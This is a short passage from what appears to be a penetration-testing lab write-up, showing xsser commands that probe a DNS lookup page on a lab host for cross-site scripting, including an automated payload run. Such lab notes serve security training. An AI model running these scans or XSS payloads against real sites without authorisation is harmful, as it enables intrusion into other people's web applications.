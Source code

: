 - Use **`xsser`** to check the vulnerability

```bash
xsser --url 'http://192.131.167.3/index.php?page=dns-lookup.php' -p
'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'
```

![xsser](assets/image-20230504234542520.png)

```bash
xsser --url 'http://192.131.167.3/index.php?page=dns-lookup.php' -p
'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto
```
